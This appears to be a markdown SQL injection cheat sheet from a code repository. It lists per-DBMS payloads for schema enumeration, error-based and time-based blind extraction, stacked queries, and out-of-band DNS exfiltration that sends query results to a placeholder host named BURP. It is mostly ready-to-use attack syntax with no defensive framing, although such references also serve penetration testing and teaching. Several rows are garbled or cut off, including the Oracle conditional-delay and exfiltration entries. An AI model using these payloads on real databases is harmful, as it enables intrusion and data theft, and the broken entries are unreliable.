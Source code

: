 # 🛡️ SQL Injection Cheat Sheet

### 🔗 String Concatenation

| DBMS            | Syntax                                                  |
| --------------- | ------------------------------------------------------- |
| **Oracle**      | `'foo'\|\|'bar'`                                        |
| **Microsoft**   | `'foo' + 'bar'`                                         |
| **PostgreSQL**  | `'foo'\|\|'bar''`                                       |
| **MySQL**       | `'foo' 'bar'` _(with space)_  <br>`CONCAT('foo','bar')` |
| ***example***** | `username\|\|\|':'\|\|\|password`                       |

---

### 🔍 Substring Extraction

|DBMS|Syntax|Returns `'ba'`|
|---|---|---|
|**Oracle**|`SUBSTR('foobar', 4, 2)`|✔|
|**Microsoft**|`SUBSTRING('foobar', 4, 2)`|✔|
|**PostgreSQL**|`SUBSTRING('foobar', 4, 2)`|✔|
|**MySQL**|`SUBSTRING('foobar', 4, 2)`|✔|

---

### 💬 Comments (Query Truncation)

|DBMS|Syntax|
|---|---|
|**Oracle**|`-- comment`|
|**Microsoft**|`-- comment`, `/* comment */`|
|**PostgreSQL**|`-- comment`, `/* comment */`|
|**MySQL**|`# comment`, `-- comment` _(space required)_, `/* comment */`|

---

### 🏷️ Database Version Disclosure

|DBMS|Query|
|---|---|
|**Oracle**|`SELECT banner FROM v$version`  <br>`SELECT version FROM v$instance`|
|**Microsoft**|`SELECT @@version`|
|**PostgreSQL**|`SELECT version()`|
|**MySQL**|`SELECT @@version`|

---

### 📋 Listing Tables and Columns

| DBMS           | Tables                                    | Columns                                                               |
| -------------- | ----------------------------------------- | --------------------------------------------------------------------- |
| **Oracle**     | `SELECT * FROM all_tables`                | `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE'`            |
| **Microsoft**  | `SELECT * FROM information_schema.tables` | `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE'` |
| **PostgreSQL** | Same as Microsoft                         | Same                                                                  |
| **MySQL**      | Same as Microsoft                         | Same                                                                  |

---

### ⚠️ Conditional Errors

| DBMS           | Syntax                                                                   |
| -------------- | ------------------------------------------------------------------------ |
| **Oracle**     | `SELECT CASE WHEN (COND) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| **Microsoft**  | `SELECT CASE WHEN (COND) THEN 1/0 ELSE NULL END`                         |
| **PostgreSQL** | `1 = (SELECT CASE WHEN (COND) THEN 1/(SELECT 0) ELSE NULL END)`          |
| **MySQL**      | `SELECT IF(COND,(SELECT table_name FROM information_schema.tables),'a')` |

---

### 🕵️ Extract Data via Errors

|DBMS|Payload|Error Example|
|---|---|---|
|**Microsoft**|`SELECT 'foo' WHERE 1 = (SELECT 'secret')`|`Conversion failed...`|
|**PostgreSQL**|`SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`|`invalid input syntax for integer: "secret"`|
|**MySQL**|`SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`|`XPATH syntax error: '\secret'`|

---

### 📦 Batched (Stacked) Queries

|DBMS|Syntax|Notes|
|---|---|---|
|**Oracle**|❌ _Not supported_||
|**Microsoft**|`QUERY1; QUERY2` or `QUERY1 QUERY2`|✔|
|**PostgreSQL**|`QUERY1; QUERY2`|✔|
|**MySQL**|`QUERY1; QUERY2`|⚠️ _Limited by API and settings_|

---

### ⏱️ Time Delays (Unconditional)

|DBMS|Syntax|
|---|---|
|**Oracle**|`dbms_pipe.receive_message(('a'),10)`|
|**Microsoft**|`WAITFOR DELAY '0:0:10'`|
|**PostgreSQL**|`SELECT pg_sleep(10)`|
|**MySQL**|`SELECT SLEEP(10)`|

---

### ⏳ Conditional Time Delays

|DBMS|Syntax|
|---|---|
|**Oracle**|`SELECT CASE WHEN (COND) THEN 'a'|
|**Microsoft**|`IF (COND) WAITFOR DELAY '0:0:10'`|
|**PostgreSQL**|`SELECT CASE WHEN (COND) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|**MySQL**|`SELECT IF(COND, SLEEP(10), 'a')`|

---

### 🌐 DNS Lookup (OOB Interaction)

|DBMS|Payload|
|---|---|
|**Oracle**|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP/"> %remote;]>'),'/l') FROM dual`  <br>`SELECT UTL_INADDR.get_host_address('BURP')` _(elevated)_|
|**Microsoft**|`EXEC master..xp_dirtree '//BURP/a'`|
|**PostgreSQL**|`COPY (SELECT '') TO PROGRAM 'nslookup BURP'`|
|**MySQL**|`LOAD_FILE('\\\\BURP\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP\\a'` _(Windows only)_|

---

### 📤 DNS Data Exfiltration

| DBMS           | Payload                                                                                         |
| -------------- | ----------------------------------------------------------------------------------------------- |
| **Oracle**     | `SELECT EXTRACTVALUE(xmltype('<?xml... <!ENTITY % remote SYSTEM "http://'                       |
| **Microsoft**  | `DECLARE @p VARCHAR(1024); SET @p=(SELECT QUERY); EXEC('master..xp_dirtree "//'+@p+'.BURP/a"')` |
| **PostgreSQL** | Custom function calling `nslookup (SELECT QUERY).BURP`                                          |
| **MySQL**      | `SELECT QUERY INTO OUTFILE '\\\\BURP\\a'` _(Windows only)_                                      |
